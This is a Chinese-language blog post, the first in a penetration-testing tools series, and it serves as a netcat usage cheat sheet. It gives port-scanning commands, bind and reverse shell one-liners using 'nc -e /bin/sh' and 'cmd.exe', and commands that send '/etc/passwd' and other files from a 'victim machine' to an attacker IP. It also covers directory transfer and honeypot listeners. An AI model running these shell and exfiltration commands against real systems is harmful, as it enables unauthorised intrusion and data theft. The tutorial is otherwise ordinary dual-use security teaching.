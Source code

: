 ```yaml
---
title: 【渗透神器系列】nc
date: 2017-04-10 10:36:01
comments: true
tags:
- nc
- 渗透神器
categories: 安全工具
permalink: 01
password:
copyright: true
---
```

<blockquote class="blockquote-center">工欲善其事，必先利其器</blockquote>
　　从事渗透测试工作几年了，在做项目过程中发现良好的渗透技术固然重要，但欲测试出更多的结果，离不开强大的工具。即使是能力超强的大牛，我想也不可能完全手工做渗透，毕竟渗透测试还是个体力活。
　　现在有些人认为渗透测试越来越简单了，因为开源的自动化工具一大推，轮子也是更新换代。即使对安全一窍不通，只要上工具一跑也能获得很多漏洞，甚至自动化获取权限。我必须得承认目前层出不穷的自动化渗透工具已降低了这个行业的入门门槛，但这不意味着渗透测试工作日趋简单。
<!--more -->
　　首先我的理由是安全攻防永远是此消彼长，技术从未停滞过，安全技术永远领先于安全工具，因此只会使用工具，有时会使渗透测试工作很难开展下去，因为防护手段日益更新，而攻击技术却只能依赖滞后的工具，这样的测试效果可见一斑。其次是目前市面上强大的渗透工具，都需要一定的使用基础，绝非傻瓜式的操作，想要用好一款神器，也并非易事。综上所述，我个人认为目前渗透测试工作的难度反而会更大，并且随着国家企业对安全的重视，渗透测试从业者肩上的担子也只会更重。
　　开篇扯了半天蛋无非是想引出本系列的主题——渗透神器，之所以想要介绍记录渗透测试中使用的神器，是因为*工欲善其事，必先利其器*，仅此而已！
　　本篇作为此系列第一篇，将介绍一款渗透界经久不衰的神器，有瑞士军刀美誉的NC。本篇所记内容大部分来自互联网，如觉内容老套可自行绕道，本人尽量全方面记录NC的使用方法，全当个人查询之用，轻喷即可。

### nc Introduce
nc全称netcat,是网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据，功能强大。

### nc Install
linux/mac上默认安装nc，可在命令行下输入nc -h查看。
windows下可下载nc.exe工具使用。

### nc Usage

#### 基本用法
可以输入nc -h查看帮助：
> -h 查看帮助信息 
-d 后台模式 
-g gateway source-routing hop point[s], up to 8
-G num source-routing pointer: 4, 8, 12, ...
-e prog程序重定向，一但连接就执行［危险］ 
-i secs延时的间隔 
-l 监听模式，用于入站连接 
-L 监听模式，连接天闭后仍然继续监听，直到CTR+C 
-n IP地址，不能用域名(不使用DNS反向查询IP地址的域名)
-o film记录16进制的传输 
-p[空格]端口 本地端口号 
-s addr 本地源地址
-r 随机本地及远程端口 
-t 使用Telnet交互方式 
-u UDP模式 
-v 详细输出，用-vv将更详细 
-w 数字 timeout延时间隔 
-z 将输入，输出关掉（用于扫锚时）

#### PortScan(端口扫描)
基本tcp扫描：
```bash
nc -vv ip port
例：nc -vv 192.168.1.1 5000 扫描192.168.1.1的tcp 5000端口
```
设置延时，指定端口扫描：
```bash
nc -vv -w secs ip port-port
例：nc -vv -w 5 192.168.1.1 5000-5002 扫描192.168.1.1的5000-5002端口，网络超时的时间设为5秒。
```
#### 建立连接
##### 正向连接
目标监听一个端口：
```bash
nc -l -p port -e cmd.exe //windows
nc -l -p port -e /bin/sh //linux
```
本机去连接此端口：
```bash
nc ip port 
```
##### 反向链接
本机监听一个端口：
```bash
nc -vv -l -p port
```
目标连接此端口：
```bash
nc -e cmd.exe ip port //windows
nc -e /bin/sh ip port //linux
```
#### 传送文件
##### 目标机上下载文件
```bash
victim machine:
nc attack_ip port <  /etc/passwd
attacker machine:
nc -d -l -p  port  >  tmp
```
实例：
本机作为目标机，因为是内网ip，模拟现实情况，113.214.238.185为攻击机，现在就是要从目标机上下载文件到攻击机上。
目标机：nc.exe 113.214.238.185 9999 < H:\test.txt 将目标机H盘下test.txt文件传输到攻击机9999端口上
攻击机：nc.exe -d -l -p 9999 > test.txt 将本机9999端口传输过来的文件重命名为test.txt

##### 上传文件至目标机
```bash
attacker machine:
nc -d -l -p port < tmp
victim machine:
nc attack_ip port > tmp
```
实例：
攻击机：nc -d -l -p 9990 < test2.txt
目标机：nc 113.214.238.185 9990 > test2.txt

#### 端口数据抓包
```bash
nc -vv -w 2 -o test.txt thief.one 80 21-15
```
#### 自定义
配合|<等命令，可无限放大NC的功能。

##### 加密传输的数据
服务端：$nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt
客户端：$mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567

##### 目录传输
目标机：$tar -cvf – dir_name | nc -l 1567
攻击机：$nc -n 10.0.0.2 1567 | tar -xvf -

##### 命令记录
```bash
nc -vv victim_ip port < path\file.cmd
```
##### 搭建蜜罐
* nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止 
* nc -L -p 80 > c:\log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:\log.txt 
* nc -L -p 80 < c:\honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中，亦可起到传送文件作用 
* type.exe c:\honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中,亦可起到传送文件作用 

### 类nc工具
* ncat 安装nmap后默认安装ncat，用法于nc类似。
* [Pyshell](http://thief.one/2016/09/05/PyShell-%E6%9C%A8%E9%A9%AC%E5%90%8E%E9%97%A8/) 致敬nc的一款后门shell工具。

### 传送门
[【渗透神器系列】Fiddler](http://thief.one/2017/04/27/1)
[【渗透神器系列】nmap](http://thief.one/2017/05/02/1/)
[【渗透神器系列】搜索引擎](http://thief.one/2017/05/19/1)
[【渗透神器系列】WireShark](http://thief.one/2017/02/09/WireShark%E8%BF%87%E6%BB%A4%E8%A7%84%E5%88%99/)


参考文章：
https://www.oschina.net/translate/linux-netcat-command
http://www.w3cschool.cn/dosmlxxsc1/jiszug.html







